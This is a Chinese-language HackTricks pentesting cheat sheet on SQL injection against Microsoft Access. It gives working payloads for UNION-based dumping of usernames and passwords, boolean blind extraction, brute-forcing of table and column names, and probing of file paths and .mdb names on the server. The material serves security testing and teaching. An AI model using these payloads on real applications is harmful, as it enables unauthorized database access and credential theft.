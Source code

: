 # MS Access SQL Injection

{{#include ../../banners/hacktricks-training.md}}

## 在线游乐场

- [https://www.w3schools.com/sql/trysql.asp?filename=trysql_func_ms_format\&ss=-1](https://www.w3schools.com/sql/trysql.asp?filename=trysql_func_ms_format&ss=-1)

## 数据库限制

### 字符串连接

字符串连接可以使用 `& (%26)` 和 `+ (%2b)` 字符。
```sql
1' UNION SELECT 'web' %2b 'app' FROM table%00
1' UNION SELECT 'web' %26 'app' FROM table%00
```
### 评论

在 MS Access 中没有评论，但显然可以通过 NULL 字符删除查询的最后部分：
```sql
1' union select 1,2 from table%00
```
如果这不起作用，您可以始终修复查询的语法：
```sql
1' UNION SELECT 1,2 FROM table WHERE ''='
```
### Stacked Queries

它们不被支持。

### LIMIT

**`LIMIT`** 操作符 **未实现**。但是，可以使用 **`TOP` 操作符** 将 SELECT 查询结果限制为 **前 N 行**。`TOP` 接受一个整数作为参数，表示要返回的行数。
```sql
1' UNION SELECT TOP 3 attr FROM table%00
```
就像 TOP 一样，你可以使用 **`LAST`** 来获取 **最后的行**。

## UNION 查询/子查询

在 SQLi 中，你通常会想以某种方式执行一个新查询，以从其他表中提取信息。MS Access 总是要求在 **子查询或额外查询中指明 `FROM`**。\
因此，如果你想执行 `UNION SELECT` 或 `UNION ALL SELECT` 或在条件中使用括号中的 `SELECT`，你总是 **需要指明一个有效的表名 `FROM`**。\
因此，你需要知道一个 **有效的表名**。
```sql
-1' UNION SELECT username,password from users%00
```
### 链接等于 + 子字符串

> [!WARNING]
> 这将允许您在不需要知道表名的情况下提取当前表的值。

**MS Access** 允许 **奇怪的语法**，例如 **`'1'=2='3'='asd'=false`**。通常，SQL 注入将位于 **`WHERE`** 子句中，我们可以利用这一点。

想象一下，您在 MS Access 数据库中有一个 SQLi，并且您知道（或猜测）某一 **列名是 username**，而这是您想要 **提取** 的字段。您可以检查在使用链接等于技术时，Web 应用程序的不同响应，并可能使用 **`Mid`** 函数通过 **布尔注入** 提取内容。
```sql
'=(Mid(username,1,3)='adm')='
```
如果你知道 **表的名称** 和 **列** 以进行转储，你可以使用 `Mid`、`LAST` 和 `TOP` 的组合通过布尔 SQLi **泄露所有信息**：
```sql
'=(Mid((select last(useranme) from (select top 1 username from usernames)),1,3)='Alf')='
```
_Feel free to check this in the online playground._

### 暴力破解表名

使用链式等号技术，您还可以**暴力破解表名**，例如：
```sql
'=(select+top+1+'lala'+from+<table_name>)='
```
您还可以使用一种更传统的方法：
```sql
-1' AND (SELECT TOP 1 <table_name>)%00
```
_随时可以在在线演示中检查此内容。_

- Sqlmap 常见表名: [https://github.com/sqlmapproject/sqlmap/blob/master/data/txt/common-tables.txt](https://github.com/sqlmapproject/sqlmap/blob/master/data/txt/common-tables.txt)
- 另一个列表在 [http://nibblesec.org/files/MSAccessSQLi/MSAccessSQLi.html](http://nibblesec.org/files/MSAccessSQLi/MSAccessSQLi.html)

### 暴力破解列名

您可以使用链式等号技巧**暴力破解当前列名**：
```sql
'=column_name='
```
或使用 **group by**：
```sql
-1' GROUP BY column_name%00
```
或者你可以使用以下方法暴力破解**不同表**的列名：
```sql
'=(SELECT TOP 1 column_name FROM valid_table_name)='

-1' AND (SELECT TOP 1 column_name FROM valid_table_name)%00
```
### Dumping data

我们已经讨论过 [**链式等号技术**](ms-access-sql-injection.md#chaining-equals-+-substring) **从当前和其他表中转储数据**。但还有其他方法：
```sql
IIF((select mid(last(username),1,1) from (select top 10 username from users))='a',0,'ko')
```
简而言之，该查询使用“if-then”语句以便在成功时触发“200 OK”，否则触发“500 Internal Error”。利用TOP 10运算符，可以选择前十个结果。随后使用LAST仅考虑第十个元组。在该值上，使用MID运算符，可以进行简单的字符比较。通过适当更改MID和TOP的索引，我们可以转储所有行的“username”字段的内容。

### 基于时间

检查 [https://docs.microsoft.com/en-us/previous-versions/tn-archive/cc512676(v=technet.10)?redirectedfrom=MSDN](<https://docs.microsoft.com/en-us/previous-versions/tn-archive/cc512676(v=technet.10)?redirectedfrom=MSDN>)

### 其他有趣的函数

- `Mid('admin',1,1)` 从位置1获取长度为1的子字符串（初始位置为1）
- `LEN('1234')` 获取字符串的长度
- `ASC('A')` 获取字符的ascii值
- `CHR(65)` 从ascii值获取字符串
- `IIF(1=1,'a','b')` 如果则
- `COUNT(*)` 计算项目数量

## 枚举表

从 [**这里**](https://dataedo.com/kb/query/access/list-of-tables-in-the-database) 您可以看到获取表名的查询：
```sql
select MSysObjects.name
from MSysObjects
where
MSysObjects.type In (1,4,6)
and MSysObjects.name not like '~*'
and MSysObjects.name not like 'MSys*'
order by MSysObjects.name
```
然而，请注意，发现 SQL 注入的情况是非常典型的，**您无法访问读取表 `MSysObjects`**。

## 文件系统访问

### Web 根目录完整路径

**Web 根绝对路径的知识可能会促进进一步的攻击**。如果应用程序错误没有完全隐藏，可以通过尝试从不存在的数据库中选择数据来揭示目录路径。

`http://localhost/script.asp?id=1'+'+UNION+SELECT+1+FROM+FakeDB.FakeTable%00`

MS Access 会返回一个**包含 Web 目录完整路径名的错误消息**。

### 文件枚举

以下攻击向量可用于**推断远程文件系统上文件的存在**。如果指定的文件存在，MS Access 会触发一条错误消息，告知数据库格式无效：

`http://localhost/script.asp?id=1'+UNION+SELECT+name+FROM+msysobjects+IN+'\boot.ini'%00`

另一种枚举文件的方法是**指定一个 database.table 项**。**如果**指定的**文件存在**，MS Access 会显示一条**数据库格式错误消息**。

`http://localhost/script.asp?id=1'+UNION+SELECT+1+FROM+C:\boot.ini.TableName%00`

### .mdb 文件名猜测

**数据库文件名 (.mdb)** 可以通过以下查询推断：

`http://localhost/script.asp?id=1'+UNION+SELECT+1+FROM+name[i].realTable%00`

其中**name\[i] 是一个 .mdb 文件名**，**realTable 是数据库中存在的表**。尽管 MS Access 总是会触发一条错误消息，但可以区分无效文件名和有效的 .mdb 文件名。

### .mdb 密码破解

[**Access PassView**](https://www.nirsoft.net/utils/accesspv.html) 是一个免费的实用程序，可用于恢复 Microsoft Access 95/97/2000/XP 或 Jet Database Engine 3.0/4.0 的主数据库密码。

## 参考文献

- [http://nibblesec.org/files/MSAccessSQLi/MSAccessSQLi.html](http://nibblesec.org/files/MSAccessSQLi/MSAccessSQLi.html)

{{#include ../../banners/hacktricks-training.md}}

